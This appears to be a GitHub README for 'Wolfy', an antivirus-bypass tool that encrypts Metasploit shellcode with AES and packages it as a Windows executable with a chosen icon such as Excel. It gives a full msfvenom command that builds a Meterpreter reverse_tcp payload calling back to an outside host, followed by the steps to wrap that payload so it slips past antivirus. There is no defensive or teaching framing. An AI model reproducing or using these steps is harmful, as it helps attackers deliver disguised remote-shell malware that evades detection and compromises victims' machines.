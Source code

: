 <h1 align="center">Wolfy AV Bypasser</h1> <br>

<p align="center"><img src="images/wolfy.png"></p>
<p align="center">Wolfy is a tool which bypass AVs by using a crypter + the tool Condor from mrempy/Condor</p>


# Features

* Custom shellcodes with metasploit
* AES Encryption
* Can be used in Linux and Windows
* Can be used with covenant

# Usage

```bash
python3 wolfy.py -h

usage: wolfy.py [-h] -s SHELLCODE [-i ICON] -n EXENAME

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        .bin shellcode file
  -i ICON, --icon ICON  icon of exe
  -n EXENAME, --name EXENAME
                        .exe name
```


### 1. Generate a shellcode with msfvenom following this structure ->

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.6 LPORT=443 -f raw -o shellcode.bin
```

**Note: You can generate whatever metasploit payload you want.**

### 2. Install the dependences

If you are in linux, execute `sudo bash install.sh`

If you are in Windows, execute `pip install pycryptodome pyinstaller tinyaes colorama Cython`

### 3. Run wolfy.py

```bash
python3 wolfy.py -s shellcode.bin -i excel -n myexename
```


# Special Thanks to mrempy

See
> [Condor](https://github.com/mrempy/Condor)
